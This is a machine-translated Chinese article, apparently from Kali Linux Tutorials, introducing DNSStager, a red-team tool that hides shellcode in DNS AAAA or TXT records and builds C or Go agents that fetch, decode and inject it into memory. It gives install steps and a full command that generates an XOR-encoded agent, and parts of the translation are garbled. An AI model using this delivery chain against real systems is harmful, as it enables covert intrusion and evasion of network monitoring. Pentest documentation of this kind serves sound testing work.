

# DNSStager:在 DNS 中隐藏你的有效负载

> 原文：<https://kalilinuxtutorials.com/dnsstager/>

**DNSStager** 是一个基于 Python 的开源项目，用于使用 DNS 隐藏和传输您的有效负载。

DNSStager 将创建一个恶意的 DNS 服务器，处理对您的域的 DNS 请求，并在将您的有效负载拆分成块并使用不同的算法对其进行编码后，返回您的有效负载作为对特定记录请求(如`AAAA`或`TXT`记录)的响应。

DNSStager 可以生成一个用`C`或`GoLang`编写的定制代理，它将解析一系列域，检索有效负载，解码它，并最终根据您想要的任何技术将其注入内存。

您可以随意编辑 DNSStager 代理的代码，并使用您自己的定制执行技术来构建它。

使用 DNSStager 的主要目的是帮助 red teamers/pentesters 使用 DNS 在隐形通道中交付其有效载荷。

它是如何工作的？

根据您的 DNS 解析选项，DNSStager 会将您的有效负载拆分为多个块，并将每个有效负载块保存为一个子域的响应。

例如，如果您选择`**IPV6**`作为检索有效负载的选项，DNS 响应将类似于:

`**cloud-srv-1.test.mydnsserver.live. 300 IN AAAA 5648:31d2:6548:8b52:6048:8b52:1848:8b52**`

其中`**5648:31d2:6548:8b52:6048:8b52:1848:8b52**`是有效载荷的一部分。

因此，代理将解析一些域来检索有效载荷，然后对其进行解码，最后将其注入内存。

目前 DNSStager 只支持两个记录，`**AAAA**`和`**TXT**`。您可以使用 XOR 对`AAAA`记录进行编码，默认情况下，如果您选择`TXT`记录，它将被编码为 base64。

**DNSStager 的主要特性**

DNSStager 具有一些关键特性，例如:

*   在`**IPV6**`记录中隐藏并解析你的有效载荷。
*   在`**TXT**`记录中隐藏并解析你的有效载荷。
*   XOR 编码器来编码你的有效载荷。
*   Base64 编码器来编码您的有效负载(仅用于 TXT 记录)。
*   用 **`C`** 编写的纯代理具有定制它的能力。
*   用`**GoLang**`编写的纯代理，能够定制它。
*   在每次 DNS 请求之间使用睡眠的能力。
*   更多精彩即将到来！

**要求**

您可以通过以下方式安装 DNSStager python 要求:

`**pip3 install -r requirements.txt**`

您需要安装`**GoLang**`版本`1.16.3`，并确保安装以下`**GoLang**`包:

*   golang.org/x/sys
*   github.com/miekg/dns

此外，确保通过以下方式安装`**ming-w64**`:

`**apt install mingw-w64**`

脚本`**setup.sh**`应该可以帮你做到这一点，但是在你使用它之前要仔细检查需求！

**安装**

要获取 DNSStager 的最新版本，请确保使用以下命令从该存储库中克隆它:

`**git clone https://github.com/mhaskar/DNSStager**`

然后，您需要使用以下命令安装需求:

`**pip3 install -r requirements.txt**`

并确保安装前面提到的所有要求。

完成所有这些之后，您就可以以根用户的身份执行 DNSStager **来获得以下内容:**

**┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py
██████╗░███╗░░██╗░██████╗░██████╗████████╗░█████╗░░██████╗░███████╗██████╗░
██╔══██╗████╗░██║██╔════╝██╔════╝╚══██╔══╝██╔══██╗██╔════╝░██╔════╝██╔══██╗
██║░░██║██╔██╗██║╚█████╗░╚█████╗░░░░██║░░░███████║██║░░██╗░█████╗░░██████╔╝
██║░░██║██║╚████║░╚═══██╗░╚═══██╗░░░██║░░░██╔══██║██║░░╚██╗██╔══╝░░██╔══██╗
██████╔╝██║░╚███║██████╔╝██████╔╝░░░██║░░░██║░░██║╚██████╔╝███████╗██║░░██║
╚═════╝░╚═╝░░╚══╝╚═════╝░╚═════╝░░░░╚═╝░░░╚═╝░░╚═╝░╚═════╝░╚══════╝╚═╝░░╚═╝
Beta Version Hide your payload in DNS
[-] Please specify a domain name using –domain**

**用途**

要开始使用 DNSStager，请确保首先设置您的 DNS 设置，您需要将您的域作为`**NS record**`指向 DNSStager 实例，以便处理您的域的所有 DNS 请求。

您可以阅读这篇关于如何设置和使用 DNSStager 的完整文章。

您可以使用`**-h**`开关检查选项，如下所示:

**┌─[askar@hackbook]─[/opt/redteaming/dnsstager】
└──╼$须藤。/dnsstager.py -h
用法:DNSStager . py[-h][–DOMAIN DOMAIN][–PREFIX PREFIX]
[–PAYLOAD PAYLOAD][–OUTPUT OUTPUT]
[–SHELLCODE _ PATH SHELLCODE _ PATH][–xor key xor key]
[–SLEEP]
DNSStager 主解析器
可选参数:
-h，–help 显示此帮助消息并退出
–DOMAIN 要用作域的域 请参见–有效负载了解更多详细信息
–输出输出代理输出路径
–外壳代码 _ 路径外壳代码 _ 路径
外壳代码文件路径
–XOR key XOR key XOR key 使用
对有效负载进行编码–睡眠睡眠在每次 DNS 请求之间睡眠 N 秒**

*   –域:您可以使用此选项来选择您将用来处理 DNS 请求的主域。
*   —前缀:要用于子域模式的前缀例如，如果您的主域是 **`fakedns.live`** 您可以将前缀指定为“cdn”，因此生成的域将是如下模式:
    *   `**cdn0.fakedns.live**`
    *   `**cdn1.fakedns.live**`
    *   `**cdnN.fakedns.live**`

其中`**N**`是自动生成的数字，代表您的有效负载的块数。

*   –payload:您希望基于技术、编程语言和架构生成的 DNSStager 有效负载“代理”。
*   –Output:保存 DNSStager 可执行负载“代理”的输出路径。
*   –shellcode _ path:您的 **`raw` / `bin`** shellcode 路径。
*   –XOR key:用于对有效负载进行编码的 XOR 键。
*   –sleep:用于在每次 DNS 请求之间休眠 N 秒。

**DNSStager 有效载荷**

要检查可用的 DNSStager 有效负载，您可以使用`**./dnsstager.py --payloads**`获得以下结果:

**┌─[askar@hackbook]─[/opt/redteaming/dnsstager】
└──╼$须藤。/DNS stager . py–有效负载
[+] 6 个 DNSStager 有效负载可用
x64/c/ipv6 通过编译的 x64 C 代码将有效负载解析为与自定义密钥异或的 ipv6 地址
x86/c/ipv6 通过编译的 x86 C 代码将有效负载解析为与自定义密钥异或的 ipv6 地址
x64/golang/txt 将有效负载解析为使用 base64 编译的 x64 GoLang 代码编码的 txt 记录
x64/golang/ipv6 将有效负载解析为使用自定义密钥编码的 IPV6 地址通过编译的 x64 GoLang 代码使用字节添加编码
x86/golang/txt 使用 base64 编译的 x86 GoLang 代码编码的记录
x86/golang/ipv6 通过编译的 x86 GoLang 代码使用字节添加编码将有效负载解析为使用自定义密钥编码的 ipv6 地址**

**在 IPV6 中使用 DNSStager 的示例**

此示例将启动 DNSStager，使用带有前缀`**cloud-srv-**`的域`**test.mydnsserver.live**`将您的有效负载解析为`**IPV6**`，以生成使用 0x10 作为关键字编码的编译后的`**x64 C**`代理:

`**sudo ./dnsstager.py --domain test.mydnsserver.live --payload x64/c/ipv6 --output /tmp/a2.exe --prefix cloud-srv- --shellcode_path ~/payload.bin --sleep 1 --xorkey 0x10**`

输出将是:

为了检查一切是否正常，让我们向`cloud-srv-0.test.mydnsserver.live`发送 DNS 查询以获得以下内容:

我们可以看到，我们收到了作为响应的`**f642:89ee:fae2:c20a:a0a:4b5b:4b5a:585b**`,这是我们编码的有效载荷的前 16 个字节。

然后，您可以在目标机器上执行代理 **`/tmp/a2.exe`** (如在命令行中的 using–output 中所设置的)，它将下载所有需要的块，对它们进行解码，并为您将它们注入内存。

[**Download**](https://github.com/mhaskar/DNSStager)